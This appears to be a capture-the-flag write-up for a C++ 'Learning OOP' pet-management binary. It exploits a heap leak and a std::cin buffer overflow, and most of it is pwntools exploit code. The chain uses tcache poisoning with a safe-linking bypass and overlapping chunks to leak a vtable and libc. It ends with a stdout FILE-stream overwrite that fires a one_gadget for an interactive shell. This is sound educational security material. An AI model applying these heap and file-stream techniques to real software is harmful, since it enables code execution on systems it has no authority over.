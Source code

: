 # Learning OOP
## Description of the challenge
The challenge allow the user to create and manage pets. Pets are represented by C++ classes. Each time the user create a new pet the service allocate a new istance of the class using `new PetType`. The user can allocate up to 10 pet. Pets have an age and a fullness, when the age get bigger than `pet.get_max_age()` or the fullness goes to 0, the pet dies. When a pet die the service frees it using `delete pet`. The program run a loop which allow you to interact with your pets or to create a new one. Each iteration the function `update()` is called. This function age up the pets and decrement the fullness. The fullness can be set up to 20 by feeding the pet. On pet creation the user can set a name for the pet and this should not the change until the pet dies.

## Vtable leak
The vuln of the service are the following:
* Heap leak
* Heap overflow
The first one is due to the following code which run on each pet creation:
```c++
std::cout << "Adopted new pet: " << new_pet << std::endl; // TODO: fix
```
The second one is due to the use of `std::cin` on a C-like buffer. The Pet class implements the pet name in this way:
```c++
protected:
        char name[0x100];
        int age;
        int fullness;
        int status;
```
on pet creation the name is setted using the following method:
```c++
void set_name() {
            std::cout << "Enter name: " << std::endl;
            std::cin >> this->name;
        }
```
P.S. at class creation the name buffer is initialized with "A"
```c++
Animal() {
            memset(this->name, 0x41, sizeof(this->name));
            this->age = 0;
            this->fullness = 10;
            this->status = Status::FULL | Status::WELLRESTED;
        }
```

Using this overflow we can control all the properties of the class. Playing with the fullness it's possible control how they will be set free. Using this primitive we can prepare the tcache:
```py
tcache_pets = []
tcache_pets = Pet.adopt_from_fullnesses([3, 3, 1])
print_addr_list(tcache_pets, name="tcached")
play_pet(12)
```
In this code we allocate 3 pet, the first with fullness 3, same for the second and the third with fullness 1. Now the tcache looks like this:

![tcache from gdb](./tcache1.png)

We can allocate a pet, and from this overflow on the pet at the head of the tcache and poison its metadata (it's possibile to bypass safe linking using the free leak discussed in the previous section)
```py
payload = p32(0x0) + p64(0x121) + p64((tcache_pets[2] + DISPLACEMENT) ^ (tcache_pets[2] >> 12) )
tmp = Pet(fullness=0x3, overflow=payload, status=0x0)
print(f"Overflowing from: {hex(tmp.adopt())}")
```
The idea is to allocate a new pet inside an alredy active one. In this way the vtable of the inner pet is written inside the name file of the outer pet and we can leak it. The value I chose for DISPLACEMENT is 0x40, but all values which allocate the inner pet inside the name of the outer one are possible.

While allocating the inner pet is possible that the top chunk will be broken, so it will be necessary to fix it. By allocating the inner pet we also overwrite the age and the fullness of the outer one, so we need to be carefull to not kill the outer pet immediatly 
```py
spoofed_pets = []
outer_pet = Pet(name=b"B" * 0x100 ,fullness=0xff)
spoofed_pets.append(outer_pet.adopt())

payload = (p32(0x0) + p32(0x3)) * ((0x110 - DISPLACEMENT) // 8) + p64(0xd5e1)
payload = payload + b"B" * (0x100 - len(payload))
inner_pet = Pet(fullness=0x4, name=payload)
spoofed_pets.append(inner_pet.adopt())
```
Now we can leak the address of the vtable of the `inner_pet` by reading the name of `outer_pet`
```py
p.sendline(b"2")
p.recvuntil(b"0. BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB")
vtable_leak = p.recvline()[:-1]
vtableleak = int.from_bytes(vtable_leak, "little")
p.sendline(b"0")
p.recvuntil(b"> ")
```
Is important to maintain control over the pet used to do the overflow, so we can use it again in the future. When I used it to overflow i setted it's fullness such that it died in this moment so I can reallocate it.

## Libc leak
To leak the libc the attack we want to do is similar to the previous one. Before I start I want to recover the chunk used in the previous attack (we have only 10 allocations, it's better to not waste them). To do this we must fix the metadata of the inner pet before it dies. I setted the fullness of the outer pet such that it died in the last interaction, so we can reallocate it and write on the metadata of the inner. After this I let die all the pets.
```py
payload = b"D" * (DISPLACEMENT - 0x18) + (p64(0x0) + p64(0x121) + p64(vtable_leak))
pet_esterno = Pet(name = payload, fullness=0x2)
pet_esterno.adopt()

play_pet(12)
play_pet(12)
```
This is the actual state of the tcache:

![tcache from gdb](./tcache2.png)

It is possible to repeat the previous attack, but this time we want to allocate the overlapping chunks with `DISPLACEMENT = 0` (so they will be the same chunk).

Then we fill the tcache and let die one of the two instance of the overlapping chunk. So this chunk will go to the unsorted bins
```py
payload = p32(0x0) + p64(0x121) + p64(spoofed_pets[0] ^ (spoofed_pets[0] >> 12))
overflow_pet = Pet(fullness=0xe, overflow=payload)
overflow_pet.adopt()


overlapped = Pet(fullness=0xff)
s = overlapped.adopt()
print(f"First overlapping allocation: {hex(s)}")

overlapped = Pet(fullness=12 * 2)
s = overlapped.adopt()
print(f"Second overlapping allocation: {hex(s)}")

# Filling the tcache
Pet.adopt_from_fullnesses([6, 5, 4, 3, 2, 1])
for i in range(5):
    play_pet(12)
```
Be carefull that the overlapped per will be updated two times for interaction.

When one of the two istance get free, it's vtable got overwritten by metadata of the unsorted bins. So the living instance has an invalid vtable and the program will crush at the next `update()`. To avoid this we have to fix it with the next interaction, for this reason I chose the fullness of the pet used to overflow such that it is now at the head of the tcache. We can reallocate it and overflow on the broken vtable to fix it
```py
payload = p32(0x0) + p64(0x121) + p64(vtable_leak)[:-1]
overflow_pet = Pet(overflow=payload, fullness=0xff)
overflow_pet.adopt()
```
Now we are safe. We can leak the main arena from the overlapping chun like we did in the previous section
```py
p.sendline(b"2")
p.recvuntil(b"1. ")
libc_leak = p.recvline()[:-1]
libc_leak = int.from_bytes(libc_leak, "little")
libc_base = libc_leak - 0x203b20
print(f"Libc base: {hex(libc_base)}")
p.sendline(b"12")
p.recvuntil(b"> ")
```

## Spawn the shell
At this point we don't have other ways to leak, so we can't overwrite a return address to execute a ROP chain. It's possible to overwrite a vtable, but we have to spawn a shell with just one gadget. 

![one_gadget](./one_gadget.png)

I tried debugging some call to the vtable and the constraints of the one_gadget seems to not be satisfied. We can't even control the arguments passed to this function because the only argument passed is the address of the calling object. So I decided to get control execution by exploiting file streams. Using the same attack of the previous sections I allocated an object on stdout and overwritten it in the following way:
```py
payload = p64(libc_base + ONE_GADGET_OFFSET)
buffer = Pet(fullness=0xff, name=payload)
buffer = buffer.adopt() + 0x8

tcache_pets = []
payload = b"\x00" * (0xb8) + b"-i\0"
a = Pet(fullness=3, name=payload)
tcache_pets.append(a.adopt())

...

wide_data = libc_base + STDOUT_OFFSET - 0x50
wide_vtable = buffer - 0x68

payload = flat(
    b"\x00" * (0x88),
    libc_base + 0x205710,                       # lock
    wide_vtable,                                # _wide_data->vtable
    b"\x00" * (0xa0 - 0x98),
    wide_data,                                  # _widea_data struct
    b"\x00" * (0xd8 - 0xa8),
    libc_base + WFILE_OVERFLOW_OFFSET - 0x38    # FILE->vtable
)
```
By the debugging this FILE stream exploit I noticed that rax point to an heap address. For this reason I did some strange allocation before writing on stdout. I did that allocations such that the address pointed by rax contains the string "-i\0". The last one_gadget I showed has as constraint that `{"/bin/sh", rax, NULL}` is a valid argv. By passing "-i" /bin/sh called with that argv will spawn an interactive shell. The other constraint are satisfied so I used that one_gadget.

To trigger this attack we don't have to do nothing. After we overwrite stdout at the next call to cout the function `fwrite()` will be called and that will trigger the attack spawning the shell.